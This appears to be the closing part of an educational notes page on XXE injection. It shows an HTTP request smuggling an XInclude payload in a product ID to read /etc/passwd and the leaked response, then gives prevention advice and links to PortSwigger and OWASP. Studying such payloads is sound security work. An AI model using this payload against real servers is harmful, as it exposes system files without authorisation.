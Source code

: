 * Request
```xml
POST /product/stock HTTP/2
...
productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1
```
* Response
```xml
HTTP/2 400 Bad Request
...
"Invalid product ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
...
```

---

## How To Prevent XXE Injection?
The best way to prevent XXE Injection vulnerabilities is to disable dangerous XML features that the application does not need or intend to use.
* Disable resolution of external entities and disable support for XInclude

--- 

## Resources
* [XML Tutorial](https://www.w3schools.com/xml/default.asp)
* [Web Security Academy – XML External Entity (XXE) Injection](https://portswigger.net/web-security/xxe)
* [OWASP Web Security Testing Guide – Testing for XML Injection](https://owasp.org/www-project-web-security-testing-guide/)
* [OWASP XML External Entity Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html)
* [PwnFunction – XML External Entities (XXE) Explained](https://www.youtube.com/watch?v=gjm6VHZa_8s&ab_channel=PwnFunction)